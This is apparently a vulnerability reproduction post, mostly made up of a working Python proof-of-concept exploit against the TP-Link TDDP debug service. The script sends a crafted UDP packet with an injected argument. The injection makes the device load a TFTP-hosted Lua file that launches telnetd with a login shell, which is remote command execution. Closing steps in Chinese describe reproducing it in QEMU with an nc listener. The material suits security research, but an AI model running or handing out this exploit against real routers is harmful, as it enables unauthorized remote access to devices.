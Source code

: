 	# Create a file in your tftp directory with the following contents:
	#
	#function config_test(config)
	#  os.execute("telnetd -l /bin/login.sh")
	#end
	#
	# Execute script as poc.py remoteaddr filename
	
	import sys
	import binascii
	import socket
	
	port_send = 1040
	port_receive = 61000
	
	tddp_ver = "01"
	tddp_command = "31"
	tddp_req = "01"
	tddp_reply = "00"
	tddp_padding = "%0.16X" % 00
	
	tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])
	
	sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
	sock_receive.bind(('', port_receive))
	
	# Send a request
	sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
	packet = binascii.unhexlify(tddp_packet)
	argument = "%s;arbitrary" % sys.argv[2]
	packet = packet + argument.encode()
	sock_send.sendto(packet, (sys.argv[1], port_send))
	sock_send.close()
	
	response, addr = sock_receive.recvfrom(1024)
	r = response.encode('hex')
	print(r)

重现步骤为：

- 1.QEMU虚拟机中启动tddp程序
- 2.宿主机使用NC监听端口
- 3.执行POC，获取命令执行结果
最终成功重现此漏洞